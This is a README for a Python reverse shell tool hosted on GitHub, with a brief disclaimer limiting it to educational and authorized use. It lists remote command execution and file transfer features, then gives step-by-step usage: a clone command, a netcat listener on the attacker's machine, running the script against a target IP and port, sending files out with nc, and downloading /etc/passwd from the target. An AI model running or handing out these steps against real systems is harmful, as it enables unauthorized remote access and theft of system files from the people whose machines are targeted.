 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Killsecstasy/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
nc -lvp YOUR_PORT
python3 reverse_shell.py
python3 reverse_shell.py -h
python3 reverse_shell.py <TARGET_IP> <TARGET_PORT>
whoami
cd /etc
upload test.txt
cat test.txt | nc -w 3 YOUR_TARGET_IP YOUR_PORT
download /etc/passwd
nc -lvp YOUR_PORT > passwd
